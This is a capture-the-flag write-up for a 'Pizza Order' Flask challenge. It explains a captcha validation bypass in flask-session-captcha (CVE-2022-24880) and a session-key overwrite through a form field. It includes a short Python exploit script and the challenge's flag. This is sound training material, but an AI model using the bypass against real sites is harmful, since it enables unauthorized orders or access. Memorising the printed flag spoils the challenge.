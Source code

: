 # Pizza Order
![date](https://img.shields.io/badge/date-24.01.2023-brightgreen.svg) 

## Challenge
Bad news, the local pizza dealer has implemented some sort of new captcha mechanism which seems impossible to solve, can you help us order pizza?

http://10.212.138.23:48575

Flag format: S2G{...}

## Solution
The website is a Flask application that lets users order pizza. However, the captcha is impossible to read, and hence, ordering pizza becomes impossible. So to solve this challange we need to bypass both captcha and payment.

The application is using flask-session-captcha version 1.2.0. This version has a captcha validate bypass vulnerability, [CVE-2022-24880](https://github.com/advisories/GHSA-7r87-cj48-wj45).

The function `captcha.validate()` returns `None` if no value was passed. Since the challange checks `captcha.validate() == False`, the user could send a request with an empty form to bypass it.

Secondly, we want `if session['user_type'] == 'private':` to be false. That means we need to change `session` to something else. The user can set the cardholder-field to `user_type`, which will overwrite the previous value, and the website will spit out the flag.
```python
session[request.form.get('cardholder')] = {'card-number':request.form.get('cardNumber'),'expiration-date':request.form.get('expirationDate'), 'cvv':request.form.get('cvv')}
```
**Flag:** S2G{d41d8cd98f00b204e9800}

### Python
We need to specify the session cookie to validate the captcha, else we will recieve "Invalid captcha".

See [exploit.py](./exploit.py).
```python
import requests
import re

url = "http://10.212.138.23:48575"
headers = {
    "Cookie": "session=anything",
}

payload = {
    "cardholder": "user_type",
}

response = requests.post(url, headers=headers, data=payload)

pattern = re.search("S2G", response.text)
flag = pattern.group() + response.text[pattern.end():pattern.end()+24].strip()

print(flag)
```
